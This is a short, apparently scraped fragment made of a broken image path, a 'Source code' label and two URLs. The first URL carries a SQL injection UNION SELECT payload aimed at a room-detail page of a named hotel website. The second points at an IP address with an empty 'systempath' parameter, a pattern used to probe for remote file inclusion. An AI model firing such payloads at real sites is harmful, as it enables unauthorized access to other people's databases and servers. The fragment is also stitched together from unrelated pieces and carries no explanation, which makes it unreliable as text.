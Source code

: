 http://www.embryohotel.com/room-detail.php?id=-1+UNION+SELECT+1,2,3,4,5,6,7,8,9,10,11,12,13--+
145.239.87.16:83/includes/header.php?systempath=
